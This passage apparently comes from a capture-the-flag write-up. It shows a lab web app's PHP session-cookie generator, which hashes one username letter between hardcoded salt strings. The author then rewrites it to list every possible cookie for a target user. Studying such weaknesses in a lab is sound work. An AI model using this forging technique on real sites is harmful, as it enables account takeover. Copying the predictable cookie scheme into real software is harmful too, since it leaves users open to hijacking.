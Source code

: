 ```php
} 
```

The authController.php includes the `cookie.php` file which in turn reveals how the second cookie is generated. A letter of the username is randomly chosen and placed between two hardcoded strings. After that the string is hashed and placed after the username. Since `paul` has only four letters this leaves use with only four possible cookies.

[![cookie.png](/img/breadcrumbs/cookie.png)](/img/breadcrumbs/cookie.png)

`cookie.php`
```php
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528.\/9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```

We can modify the `cookie.php` to print all possible cookie values.

```php
<?php
/**
 * @param string $username  Username requesting session cookie
 * 
 * @return string $session_cookie Returns the generated cookie
 * 
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * */
function makesession($username){
    for($x = 0; $x < strlen($username); $x++)
    {
      $key = "s4lTy_stR1nG_".$username[$x]."(!528./9890";
      $session_cookie = $username.md5($key);

      echo "$session_cookie\n";
    }
}

```